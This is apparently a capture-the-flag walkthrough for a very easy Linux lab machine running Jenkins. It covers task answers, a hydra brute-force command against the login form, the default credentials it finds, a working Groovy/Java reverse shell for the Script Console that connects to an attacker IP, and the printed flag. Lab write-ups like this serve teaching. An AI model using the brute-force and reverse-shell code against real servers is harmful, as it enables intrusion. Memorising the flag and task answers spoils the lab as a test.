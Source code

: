 ### Pennyworth

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br>
**Tags:** Common Applications, Jenkins, Java, Reconnaissance, Remote Code Execution, Default Credentials<br>


---

#### Task 1
**What does the acronym CVE stand for?**
> Common Vulnerabilities and Exposures



---

#### Task 2
**What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?**
> confidentiality, integrity, availability



---

#### Task 3
**What is the version of the service running on port 8080?**
> Jetty 9.4.39.v20210325

![Scanning Port 8080](port8080.png)



---

#### Task 4
**What version of Jenkins is running on the target?**
> 2.289.1

First we use BurpSuite to intercept an HTTP Request when we try to login. First we go to the proxy tab in BurpSuite. We make sure `intercept off` and we go to the target website `http://{Target IP}:8080`. Then in BurpSuite we turn `intercept on` and try to login with the arbitrary credentials `user` and `pass`:

![Intercept](intercept1.png)

Next we go to BurpSuite and see our intercepted packet. We see that the intercepted packet was a HTTP POST Request to `/j_spring_security_check `. We notice that the request has a cookie and four query parameters `j_username`, `j_password`, `form`, and `Submit`. We also notice that the value of `j_username` and `j_password` are the credentials were submitted to the fom.

![Intercepted Packet](intercept2.png)

Next we use the `Forward` button in BurpSuite to send the intercepted packet to the target website. We don't have valid login credentials and see that BurpSuite intercepted a HTTP GET Request with the url endpoint `\loginError`:

![Login Failed](login_failed.png)

Next we download the [common username list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt) and save it as `usernames.txt`. We also download the [common password list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt) and save it as `passwords.txt`. We use hydra to brute force a username and password credential pair:

```bash
hydra -L {USERNAMES} -P {PASSWORDS} -F {TARGET IP} -s {TARGET PORT} http-post-form "{URL ENDPOINT}:{QUERY PARAMTERS}:C={COOKIE}:F={FAILURE STRING}"
```

For the `{USERNAMES}` and `{PASSWORDS}` flags, we give hydra the path to the common username and password lists we downloaded earlier: `usernames.txt` and `passwords.txt`. We also set target website: `-F {TARGET IP} -s 8080`. Next we specify that we want to make an `http-post-form` to brute force the login credentials. For our post request, we set the `{URL ENDPOINT}` to the one we got from BurpSuite: `/j_spring_security_check`. For the query parameters, we set `{j_username}` and `{j_password}` too `^USER^` and `^PASS^`. We reuse the same values for `{from}` and `{Submit}` as the HTTP Request we intercepted in BurpSuite. We set the `{COOKIE}` value to use the same cookie as the `/login` page. Lastly we set the `{FAILURE STRING}` to `loginError` since that's what the HTTP Response BurpSuite intercepted.

![Hydra Password Cracking](hydra.png)

Hydra finds that the credential pair `root` and `password` are valid. Lastly, logging in with this credential pair, we get the Jenkins administrative panel and see the version of Jenkins that is running.

![Logged In](loggedin.png)



---

#### Task 5
**What type of script is accepted as input on the Jenkins Script Console?**
> Groovy



---

#### Task 6
**What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?**
> cmd.exe



---

#### Task 7
**What is a different command than "ip a" we could use to display our network interfaces' information on Linux?**
> ifconfig

![ifconfig](ifconfig.png)



---

#### Task 8
**What switch should we use with netcat for it to use UDP transport mode?**
> -u



---

#### Task 9
**What is the term used to describe making a target host initiate a connection back to the attacker host?**
> reverse shell

First we setup a listener on port `8000` our own computer using the `netcat` command:

```bash
nc -lvnp {TARGET IP} 8000
```

Since the Jenkins terminal accepts Java code, we can make a reverse shell in Java and run it on the script console. We click on the `Manage Jenkins` button on the left side panel. Then we scroll down to the tools and actions section and click on `Script Console`.

For our reverse shell, we make a process `p` that our main function can use to make exec calls. We start a bash shell by passing the command `/bin/bash` to our `ProcessBuilder()` function. 

```java
String cmd ="/bin/bash";
Process p = new ProcessBuilder(cmd).start();
```

Then we make a socket that allows us to connect to our own computer:
```java
String host = "10.10.15.124";
int port = 8000;
Socket s = new Socket(host,port);
```

Next we need to redirect the input and output streams. The `po` variable allows the java main function to send commands to the process `p`. The `si` variable allows the java main function to read the commands that we send on our computer via netcat. The `pi` variable allows the java main function to read the output of the process `p`. The `so` variable allows the java main function to send our computer the output:

```java
InputStream pi = p.getInputStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so=s.getOutputStream();
```

Next we need to make a `while` loop allowing our script to run continuously. Then we see if there is user input `si`. If there is user input, we send this user input to our process `po` to be executed. Next we see if there's output from our process `pi`, we send this output to our computer `so`.

```bash
while (!s.isClosed()) {

	try {
		
		if (si.available() > 0) {
		
			po.write(si.read());

		}

		if (pi.available() > 0) {
		
			so.write(pi.read()); 
		
		}

		so.flush();
		po.flush();
		Thread.sleep(50);

	} catch (IOException i) {

		break;

	}

}
```

After we use the `Script Console` to run our reverse shell java code, we can go to our netcat listener and interact with the shell:

![Reverse Shell](reverse_shell.png)



---

#### Flag
> 9cdfb439c7876e703e307864c9167a15

Lastly we search for the flag file and then display its contents:

![Flag](flag.png)

---
